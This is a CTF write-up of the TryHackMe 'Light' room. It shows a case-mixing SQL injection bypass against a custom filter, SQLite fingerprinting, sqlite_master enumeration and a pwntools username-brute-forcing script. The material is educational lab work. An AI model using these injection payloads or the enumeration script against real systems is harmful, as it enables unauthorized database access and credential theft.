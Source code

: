 # **Easy - Welcome to the Light database application!**
https://tryhackme.com/room/lightroom

I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using ``nc 10.10.22.91 1337``
You can use the username smokey in order to get started.

# Reconnaissance
Target: ``10.10.22.91``

We connect with
``nc 10.10.22.91 1337``
and enter username smokey gives us 

```
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```
Only SSH and the custom 1337 service
```
sudo nmap -p- 10.10.73.73
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 05:19 EDT
Nmap scan report for 10.10.73.73
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste

Nmap done: 1 IP address (1 host up) scanned in 422.69 seconds
```

# Findings
- We try some obious admin credentails, no luck.
- We try the username and password with SSH, no luck.
- We hit it with a large username list, we get users like alice although no admin. included the script below.
- We hit with some SQLi and find there is some custom filtering, the most likely entry

```
Please enter your username: ``' or 1=1 --``
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
# Exploiting Findings

Find some weakness in the filtering we remove -- to find it by-passes filter but we get an error, 
```
Please enter your username: ' or 1=1 
Error: unrecognized token: "' LIMIT 30"

Please enter your username: ' or '1'='1' 
Error: unrecognized token: "'1'' LIMIT 30"
```
Ahh get around the sytax error with
```
Please enter your username: ' or '1'='1  
Password: tF8tj2o94WE4LKC
```

Now what SQLtype? more filtering to overcome 
```
Please enter your username: ' UNION SELECT @@version'
Ahh there is a word in there I don't like :( 
```
Union Select Looks to bypass filters, 

```
Please enter your username: SELECT                                                                                                                                                                                                                                     
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: UNION                                                                                                                                                                                                                                      
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: Select                                                                                                                                                                                                                                     
Username not found.                                                                                                                                                                                                                                                    
Please enter your username: Union                                                                                                                                                                                                                                      
Username not found.                                                                                                                                                                                                                                                    
Please enter your username:      
```

back to find SQL type

MySQL
```
Please enter your username: ' Union Select @@version'                                                                                                                                                                                                                  
Error: unrecognized token: "@"  
```

PostgreSQL
```
Please enter your username: ' Union Select version()'                                                                                                                                                                                                                  
Error: no such function: version      
```

SQLite - Bingo we get a hit
```
Please enter your username: ' Union Select sqlite_version()'                                                                                                                                              
Password: 3.31.1  
```

Find the table name
```
Please enter your username: ' UnIoN SeLeCt name FROM sqlite_master WHERE type='table
Password: admintable
```

Find the columns name
```
Please enter your username: ' UnIoN SeLeCt sql FROM sqlite_master WHERE name='admintable
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

What is the admin username?
```
Please enter your username: ' UnIoN SeLeCt username FROM admintable'
Password: ##########
```
What is the password to the username mentioned in question 1?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable where username = '##########
Password: ##########
```

What is the flag?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable'
Password: ##########
```
# Summary 
Nice room to show why custom frameworks for preventing SQLi is a bad idea, took me a bit to long to start with SQLi and was focused on Bruteforcing. Including bruteforcing script below as while it didn't work it's a good showcase for pwntools 


# failed exploration 

## Setting up pwntools for kali 
```
mkdir -p /home/kali/pwntools
python3 -m venv /home/kali/pwntools
source /home/kali/pwntools/bin/activate
pip install pwntools
```
## bruteforce script
``nano lightbrute.py``

```
from pwn import *
import requests

# Target details
host = "10.10.22.91"
port = 1337
username_url = "https://raw.githubusercontent.com/jeanphorn/wordlist/refs/heads/master/usernames.txt"

# Download the username list
print("[*] Downloading username list...")
try:
    response = requests.get(username_url, timeout=10)
    response.raise_for_status()
    usernames = response.text.splitlines()
    print(f"[+] Loaded {len(usernames)} usernames.")
except requests.RequestException as e:
    print(f"[!] Failed to download usernames: {e}")
    exit(1)

# Start a single session
print(f"[*] Connecting to {host}:{port}...")
conn = remote(host, port, timeout=5)

# Read initial welcome message
welcome_message = conn.recvuntil(b"Please enter your username:").decode().strip()
print(f"[+] Received: {welcome_message}")

# Try each username in the same session
for username in usernames:
    print(f"[*] Trying username: {username}")
    
    conn.sendline(username)  # Send the username
    response = conn.recvuntil(b"Please enter your username:").decode().strip()  # Read the response

    print(f"[+] {username} → {response}")

    if "Username not found." not in response:
        print(f"\n🔥 Possible valid username found: {username} 🔥\n")
        break  # Stop once a valid username is found

# Close connection
conn.close()
print("[*] Username enumeration completed.")

```

``python3 lightbrute.py``










